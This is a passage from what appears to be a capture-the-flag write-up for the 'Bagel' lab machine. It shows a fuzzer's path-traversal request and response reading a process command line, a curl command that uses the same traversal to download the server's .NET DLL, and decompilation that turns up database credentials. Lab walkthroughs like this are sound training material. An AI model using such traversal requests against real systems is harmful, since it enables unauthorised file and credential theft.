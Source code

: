```
==> out/0a7b93ebd4dc507bede6ef31821461da <==
GET /?page=../../../../../proc/931/cmdline HTTP/1.1
Host: bagel.htb:8000
User-Agent: Fuzz Faster U Fool v1.4.1-dev
Accept-Encoding: gzip


---- ↑ Request ---- Response ↓ ----

HTTP/1.1 200 OK
Connection: close
Content-Length: 45
Cache-Control: no-cache
Content-Disposition: inline; filename=cmdline
Content-Type: application/octet-stream
Date: Fri, 07 Apr 2023 10:22:33 GMT
Date: Fri, 07 Apr 2023 10:22:33 GMT
Etag: "1680862003.0064297-0-927076966"
Last-Modified: Fri, 07 Apr 2023 10:06:43 GMT
Server: Werkzeug/2.2.2 Python/3.10.9

dotnet /opt/bagel/bin/Debug/net6.0/bagel.dll
```

Let's take a copy of our .NET based DLL:

```bash
$curl "http://bagel.htb:8000/?page=../../../../../opt/bagel/bin/Debug/net6.0/bagel.dll" --output - > bagel.dll
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 10752  100 10752    0     0  22322      0 --:--:-- --:--:-- --:--:-- 22307
$file bagel.dll
bagel.dll: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows
```

I found a cross-platform compiled version of ILSpy here: [AvaloniaILSpy](https://github.com/icsharpcode/AvaloniaILSpy), allowing me to decompile bagel.dll on Linux.  Digging through the assembly, classes, and their methods, a few things stood out.  Database credentials:

![](./assets/2023-04-07-21-32-30-image.png)
